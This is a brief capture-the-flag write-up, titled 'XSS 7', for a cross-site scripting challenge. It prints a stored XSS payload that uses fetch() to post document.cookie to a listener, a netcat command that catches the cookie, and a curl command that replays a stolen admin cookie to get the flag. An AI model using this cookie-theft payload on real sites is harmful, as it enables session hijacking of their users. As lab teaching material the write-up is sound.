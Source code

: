 # XSS 7

#### The challenge itself is straight forward, however, achieving it was difficult without knowing how to capture cookies in POST and use them properly.
#### First run the server, login and publish this:
```
<script>fetch("http://challenge.localhost:1337", {method: 'POST', body: document.cookie, method: 'no-cors'})</script>
```

---------------------------------------
#### Use 1337 for the port as this is the port netcat will listen to:

```nc -v -l challenge.localhost 1337```

-----------------------------------------
#### It will return a cookie to which curl will give return the flag:
```curl -b "auth=admin|.QXygTN2wyMzYDOzEzW}" http://challenge.localhost```
